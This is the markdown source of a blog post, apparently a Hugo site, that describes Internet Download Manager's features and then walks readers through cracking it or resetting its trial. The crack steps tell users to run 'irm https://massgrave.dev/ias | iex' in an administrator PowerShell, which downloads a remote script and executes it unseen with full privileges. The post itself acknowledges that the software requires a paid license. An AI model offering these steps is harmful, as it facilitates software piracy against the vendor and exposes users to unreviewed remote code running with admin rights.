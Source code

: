 ```yaml
---
title: "Active IDM New Method 2024 Using PowerShell"
date: 2024-01-25T00:00:48+07:00
description: "Tutorial crack and reset trial Internet Download Manager without harmful your computer using PowerShell and CMD"
categories: ["Windows", "Tutorial"]
tags: ["Windows", "Tutorial"]
description: 'Tutorial crack and reset trial Internet Download Manager without harmful your computer using PowerShell and CMD'
summary: 'Tutorial crack and reset trial Internet Download Manager without harmful your computer using PowerShell and CMD'
image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg6B891XNCMg0JBl4L2y81QXSZMQsBQ6ozrjMNr0H4EzjtTs8rzLGRoFSBJa7wGD2Q9VIAAmlZUDr7GqO1-XvEK8m0ytu_CPiuJ0xDtViD_nsZx9_kzmI71233DeFK7oo9LK5GGkXwY-w-IX9vUkxMysCr7KOa2o2hKERqSeAaZLSoEHntA1oFrAGM-7hO_/s80-rw/idm-logo.jpg
thumbschema: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg6B891XNCMg0JBl4L2y81QXSZMQsBQ6ozrjMNr0H4EzjtTs8rzLGRoFSBJa7wGD2Q9VIAAmlZUDr7GqO1-XvEK8m0ytu_CPiuJ0xDtViD_nsZx9_kzmI71233DeFK7oo9LK5GGkXwY-w-IX9vUkxMysCr7KOa2o2hKERqSeAaZLSoEHntA1oFrAGM-7hO_/s0-rw/idm-logo.jpg
---
```

## Internet Download Manager
Internet Download Manager, or IDM for short, is a popular download manager application for Windows PCs. It's known for its ability to increase download speeds, resume interrupted downloads, and schedule downloads for later.
### Features
Here are some of the key features of IDM:
  * Increased download speeds: IDM can split files into multiple segments and download them simultaneously, which can significantly increase download speeds. In some cases, IDM can boost download speeds by up to 5 times!
  * Resume interrupted downloads: If your download is interrupted due to a loss of internet connection or a power outage, IDM can resume the download from where it left off. This can save you a lot of time and frustration.
  * Schedule downloads: You can schedule downloads to start at a specific time or when certain conditions are met, such as when your internet connection is less busy. This can be helpful if you want to download large files without them interfering with your current activities.
  * Batch downloading: You can download multiple files at once with just a few clicks. IDM will automatically detect links and add them to the queue.
  * File integrity check: IDM can check the integrity of downloaded files to make sure they haven't been corrupted. This can help to prevent you from downloading malware or damaged files.
  * Website grabber: IDM can extract all the downloadable content from a website, such as videos, music, and images. This can be a great way to save all the content from your favorite websites in one place.
  * IDM is a commercial software, but there is a 30-day free trial available. After the trial period, you will need to purchase a license to continue using the software.

{{% adsense %}}

## Crack Internet Download Manager

1. Download Internet Download Manager from their [Official Website](https://internetdownloadmanager.com/)
2. Install it as usual.
3. After installation, exit IDM from the tray icon.

4. Open `PowerShell` as an `Admin` by *right-clicking* on the *Start logo* and selecting **Windows PowerShell (Admin)**, or press `Win+X` + `A`.

![Open PowerShell as Admin](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg6LU5tGy4Z-hSYPt2vr1pHRHzR0CXJgUlD0HeeZHzP81rYsuoWAqZ1RT5oSp44R4kpace22v1Z3emST5qMmq2RsM6N9iMKNcqPjRtnkS7YAp5ZWdC6BCgISTcx7u3vF4I0NHD3K2pBBJj26f60PT6iKu36ttKQQue1RCBRwWMGouREjA-5NJYzQC3GzeUI/s0-rw/rmdhnreza.my.id.idm.trial.reset.1.png)

5. Enter the command below.

```PowerShell
irm https://massgrave.dev/ias | iex
```

![Enter Command](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhWZsnixCgjHsfMP5DqQWpE8LdlFtMVZTWJwgZz3cRuWBrecMWTDf9JIDm6mEgAXHKMkCCJttgRGTWxUyv_OSvZhQ9Gbp-tXLoeOsx3MpsIArnqgud4UPQAmaRehfXRDcBAMKa9aR3Bi9gjbEbV5ZBf9OF5H5wsOdQRPbWVQ1EKloieRYkjpM_reMrx4Zen/s0-rw/rmdhnreza.my.id.idm.trial.reset.2.png)

6. After that, the Command Prompt (CMD) window will open.

{{% adsense %}}

![Windows Command Prompt show up](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoXtvKF1JnKvDPF92-7jes29_T6vNNHqTbFgBBaUd3jFRuS7pK0gcmYprDsB1VTlLsfihqQmUVsfm2VvFZjxlWBPRrDHPK6ha9EH4X0-5aJbqYuiGKZ7emh11vFeWXwdFk1H21h1TYjdcgCun8EOnKb-r3mBsnnXS9PzC1McEw5Hsg4D-ixFh_mQ-b9VXX/s0-rw/rmdhnreza.my.id.idm.trial.reset.3.png)

7. Choose number 1 to activate IDM permanently or choose number 2 for a trial reset (30 days).

![Choose number 1 or 2](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhuh_yr3RutGtO22mGryn3K8fT5G5kCiRQLKS1IPcAKZFc8tT25ZcsBtwaLvfIjOgbYam-Cu3Mu-9-dwoHfXRTfnUv9hSKjiO6ZP3vYaArP-4t7qETIgHsFx6LuVLb1og1XwNd2xVZkipIWrAwjRW03V7zAfLeyyBHukfLMctc-UzqjsKXPeIkt-P7PnHAk/s0-rw/rmdhnreza.my.id.idm.trial.reset.4.png)

8. Wait until the script is finished.

![Wait](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhsklqleSZj9i26scouGTuI56S7Fz7-iEflDIZk6T_TAhliJB_p1T4pON7YGXcgfiHjKEn9nVI-i7mX760U8UKlpXGOJVV8vn9oiuxWei18dZHOPGIHm9xcVr2L8iMmNM4XqHlnwgdeYSwlrbnTnm9vqqnTu8iOx6IXiTJUBHv5JrJfq3KkGwIemz_u4E66/s0-rw/rmdhnreza.my.id.idm.trial.reset.5.png)

9. $$ Profit 

![IDM Registered](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjFb3Pqj5L18cL-g0bLjlT-RJ7rCi00N83vJFNng81gpiQjkFJU770cH_2_MRr7u2uJz84EpoUmOvvhiXHjm16cEWorQxsbhuBWTgZxYSuS_m-qpU1ZuTUot3YzETIhcB4gECYED1YU_62vw-LZkcuqNpSHEZM1TqiiNsXMUqAn_HMI9uvQh_2wLagmlngp/s0-rw/rmdhnreza.my.id.idm.trial.reset.6.png)

{{% adsense %}}
